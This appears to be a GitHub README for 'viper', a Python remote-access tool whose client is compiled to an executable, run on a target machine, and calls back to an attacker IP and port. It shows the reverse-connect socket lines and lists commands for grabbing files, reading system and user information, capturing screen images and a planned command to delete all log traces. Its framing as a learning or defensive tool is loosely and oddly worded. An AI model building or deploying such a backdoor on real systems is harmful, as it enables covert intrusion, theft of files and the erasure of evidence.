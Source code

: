 
Copyright © 2017, [Jinverar owner of black signals](https://github.com/jinverar).
//=> Copyright (c) 2017 jinverar

VIPER

"""
This is viper and designed to control remote clients that get deployed on computers in defense of exploitation frameworks!
The viper is designed in order to retrieve compromised files, processes, and services in case you have to reach out and grab information. 
the viper can also be used for testing exploitation and enumeration for the purpose of learning offensive for defensible actions.

This program was created as a basic function to reach out and grab things fast! Powered by python. 


Requirements

viper has been tested on kali 2.0

The installer.sh will do this for you

python-twisted +16.6;
PyCrypto;
pyOpenSSl;
Zope interface;
python 2.7;
python-2.7.13.msi;
pyinstaller-3.1.1;
future-0.16.0;
wine;
winetricks;

Usage:

start the viper console:

$$> chmod +x viper.py

$$> python viper.py

Navigate into the payloads and change the ip address and port number inside the client


usage:

start the handler first and then start the client on the target machine

viper main commands:


[+] handler ========= > "starts the viper server and waits for a call back" 

[*] client2exe ========= > "creates a basic exe file from viperclient.py and stores it inside payloads"; 

Inside viper client modify these two lines with your ip address

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(('address you want to connect back to, attacker ip', 8081))


viper connection commands:
use these once you get the call back from the client. first you will need to enter in the local host and port number that you assigned to the client before deploying. 

[*] grab*<filename> ========= > grabs the file and saves it to the local desktop as .txt";

[*] getenv       ========= >  prints the system information";

[*] getuid       ========= > Get the user level access of the shell";

[*] SystemInfo   ========= > Get Fingerprint of the system"; todo

[*] capture      ========= > take images of the host machine "; todo

[*] Cover        ========= > Delete all traces of logs"; todo


Contributing

    Fork it!
    Create your feature branch: git checkout -b my-new-feature
    Commit your changes: git commit -am 'Add some feature'
    Push to the branch: git push origin my-new-feature
    Submit a Pull Request
